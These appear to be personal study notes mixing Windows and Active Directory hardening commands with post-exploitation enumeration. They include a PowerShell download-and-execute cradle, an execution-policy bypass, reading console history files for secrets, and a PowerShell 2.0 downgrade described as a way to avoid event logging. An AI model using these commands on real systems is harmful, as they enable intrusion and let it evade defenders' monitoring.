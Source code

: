 ## disable SMBv1 "Eternal Blue"

### check

```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```

### disable

```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```

### check for service principal names

```powershell
setspn -L <hostname>
Get-ADUser -Filter {ServicePrincipalName -ne '$null'} -Properties ServicePrincipalName
```

### Deregister spn

```powershell
setspn -d <serviceClass/Host:Port> <AccountName>
```

### Backup DNS

```powershell
Export-DnsServerZone -Name <zonename> -filename <zonename.dns.bak>
```

- will be stored in C:\Windows\System32\dns

## add local computer to allow psremoting via WSMAN works on powershell 7 or core

```powershell
Set-Item WSMan:\localhost\client\trustedhosts -Value '192.168.50.101,192.168.50.100,172.21.0.11,172.21.0.222,172.21.0.78'

```

```powershell
New-PSSession -name 'test' -ComputerName '192.168.50.101'
Enter-PSSession -name 'test'
$x = New-PSSession -name 'test' -ComputerName '192.168.50.101' -Credential 'WWE\Administrator'
Invoke-Command -Session $x -Computername '192.168.50.101' -Scriptblock {whoami}
```

## map network drives

```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\192.168.220.80\backups -Credential 'coastbackup' -Persist
```

### setting up kerberos logging command line

- check gpos for domain

```powershell
Get-GPO -All -Domain "sales.contoso.com"
```

- easier to do through group policy graphically, but we can update the audit policy directly

```powershell
Set-SystemAuditPolicy -AccountLogon 'Kerberos Authentication Service' -Value SuccessAndFailure -Verbose
Set-SystemAuditPolicy -AccountLogon 'Kerberos Service Ticket Operations' -Value SuccessAndFailure -Verbose

```

- trying a password spray attack, lets see if logs show up

## good enumeration commands

```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
```

```cmd
echo %USERDOMAIN%
echo %logonserver%
```

## powershell enumeration

```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
Get-ChildItem Env: | ft Key,Value
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

```

- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer.

```powershell
powershell.exe -version 2
```

## powersploit/powerview

- add folder to path where powershell modules are store C:\Users\Documents\WindowsPowerShell\Modules
- Import-Module Powersploit
- dot source powerview.ps1 . .\powerview.ps1
- see documentation for available commands
  [powersploit](https://github.com/PowerShellMafia/PowerSploit)

- see if anyone else is logged in

```powershell
qwinsta
```

## wmi enumeration

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn 	#Prints the patch level and description of the Hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List #Displays basic host information to include any attributes within the list
wmic process list /format:list 	#A listing of all processes on host
wmic ntdomain list /format:list 	#Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	#Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	#Information about all local groups
wmic sysaccount list /format:list
```

## dsquery

- gives full path to ldap distiguished names for objects, users, groups!

```powershell
dsquery user
dsquery computer
dsquery group
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.2.803:=64))" -attrs SamAccountName
distiguishedName
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

![Alt text](image.png)

- 1.2.840.113556.1.4.803 matches exactly
- 1.2.840.113556.1.4.804 matches if any are a match, for multiple entries
- 1.2.840.113556.1.4.1941 applies to Distiguished names

